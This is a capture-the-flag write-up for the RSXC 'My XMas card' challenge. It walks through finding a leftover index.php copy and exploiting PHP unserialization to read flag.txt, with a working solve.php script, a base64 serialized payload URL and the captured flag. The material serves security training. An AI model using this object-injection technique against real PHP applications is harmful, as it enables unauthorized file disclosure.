




# 17 - My XMas card

> We felt like it's time to start sending out some XMas cards, maybe you find something you like?
> 
> http://rsxc.no:20017

---

Let's have a look at the website. We got a nice xmas card! 🎅



Looks like the xmas card is loaded from `/index`. Let's have a look.



Directory listing is enabled, how convenient. I see a `flag.txt` in there...



Yeah, that would be too easy. Let's have a look at `index.php-1`.



That's interesting, seems to be a left over copy of `index.php` and the code looks to be vulnerable to a unserialization/LFI attack through the `$_GET['card']`-variable.

Let's create a `solve.php` script to help us a bit:

```php
<?php

class Card{
    public $file = "card.txt";    
    function __construct() {
    }
}

$card = new Card;
$card->file = 'flag.txt';
$sd = serialize($card);
$sd64 = base64_encode($sd);

echo "Serialized Card data: " . $sd . "\n";
echo "Base64 encoded Card data: " . $sd64 . "\n";
echo "\nGetting flag.txt...\n\n";
echo file_get_contents("http://rsxc.no:20017/?card=" . $sd64);
```

As we can see in `index.php-1`, we can provide a payload in the `$_GET['card']`-variable. The payload will then be unserialized and base64 decoded into a `Card`-instance before `$card->displayCard();` is called on the instance.

Our script creates a `Card`-object with `file` set to `flag.txt` instead of `card.txt`. Then we call `serialize($card)` to get the serialized version of this object. Then we just base64 encode the serialized object and send it as part of the URI:

```
http://rsxc.no:20017/?card=Tzo0OiJDYXJkIjoxOntzOjQ6ImZpbGUiO3M6ODoiZmxhZy50eHQiO30=
```

Let's run `solve.php`:

```bash
$ php solve.php
Serialized Card data: O:4:"Card":1:{s:4:"file";s:8:"flag.txt";}
Base64 encoded Card data: Tzo0OiJDYXJkIjoxOntzOjQ6ImZpbGUiO3M6ODoiZmxhZy50eHQiO30=

Getting flag.txt...

Finding your card in /files
RSXC{Care_needs_to_be_taken_with_user_supplied_input.It_should_never_be_trusted}
```


## Solution

The flag is: `RSXC{Care_needs_to_be_taken_with_user_supplied_input.It_should_never_be_trusted}`
